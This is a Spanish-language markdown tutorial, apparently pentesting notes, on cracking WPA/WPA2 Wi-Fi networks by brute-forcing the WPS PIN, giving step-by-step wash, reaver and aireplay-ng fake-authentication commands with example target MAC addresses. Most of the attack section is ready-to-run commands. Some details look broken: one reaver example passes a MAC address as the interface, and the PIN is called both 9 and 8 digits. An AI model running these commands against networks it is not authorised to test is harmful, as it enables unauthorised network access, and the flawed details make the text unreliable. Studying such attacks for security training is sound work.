 # WPA | WPA2 Cracking

- Ambos pueden ser crakeados por los mismos métodos.
- Creado para "mitigar" los problemas presentados en WEP.
- Más seguro.
- Cada paquete es cifrado usando una llave única temporal.
- Los paquetes no contienen información útil.

## Abusando WPS

### Consideraciones

- WPS es una característica que puede ser usada en WPA y WPA2.
- Permite a los clientes conectarse sin proporcionar contraseña.
- La autenticación es realizada usando un pin de 9 dígitos.
  - Siendo 8 dígitos una longitud muy pequeña.
  - Se puede intentar probar con todos los pins probables en un periodo relativamente corto.
  - Posteriormente se puede usar el pin WPS para calcular la contraseña actual.

*Nota: Esto sólo funcionaría si el router está configurado para no usar PBC (Push Button Authentication).*

### Ejecución

1. Visualizar las redes que tengan WPS habilitado

```bash
wash --interface <interfaz en modo monitor>
wash --interface mon0
```

2. Lanzar ataque de fuerza bruta.

```bash
reaver --bssid <MAC Address de objetivo> --channel <canal del AP> --interface <interfaz en modo monitor> -vvv --no-associate
reaver --bssid F8:23:B2:B9:50:A8 --channel 1 --interface 48:5D:60:2A:45:25 -vvv --no-associate
```

*Nota: Tener en consideración que kali cuenta con versiones más recientes lo que puede causar un error similar a `send_packet called from resend_last_packet() send.c:161` si es el caso se recomienda usar la versión 1.6.1, incluida en [el repositorio](./../files/reaver_1_6_1).*

3. Lanzar ataque de `Fake Authentication`.

```bash
aireplay-ng --fakeauth 30 -a <MAC Address de objetivo> -h <MAC Address de adaptador wireless> <interfaz en modo monitor>
aireplay-ng --fakeauth 30 -a F8:23:B2:B9:50:A8 -h 48:5D:60:2A:45:25 mon0
```

